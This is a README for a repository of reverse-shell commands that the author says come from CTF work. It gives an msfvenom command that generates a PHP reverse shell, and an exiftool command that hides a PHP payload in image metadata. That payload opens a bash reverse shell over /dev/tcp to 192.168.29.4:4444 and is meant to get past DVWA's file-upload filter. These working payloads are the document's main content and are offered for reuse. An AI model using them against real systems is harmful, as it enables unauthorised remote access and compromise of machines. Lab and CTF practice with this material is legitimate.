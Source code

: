 # reverse-shell

While working on various CTF challenges, I discovered the need for reverse shell scripts to gain remote access to compromised systems.
With the goal of streamlining this process, I compiled a list of useful scripts that I have personally used in CTF competitions.

Although there are numerous resources available online, I created this repository primarily for my own reference.
However, I am sharing it here to provide others with access to these scripts, which can be used at their discretion.

It is important to note that these scripts should only be used for legitimate purposes, such as remote administration of systems or troubleshooting.
Any misuse of these scripts is strictly prohibited and may result in legal consequences.


# Generate custom shell

msfvenom -p php/reverse_php lport=4444 lhost=192.168.29.4 > ./php_reverse_shell.php


# Find shell into local system

locate reverse | grep php


# DVWA File Upload high

exiftool -Comment="<?php \$command = '/bin/bash -c \"bash -i >& /dev/tcp/192.168.29.4/4444 0>&1\"'; \$output = shell_exec(\$command); echo \$output; ?>" dvwa_error.png
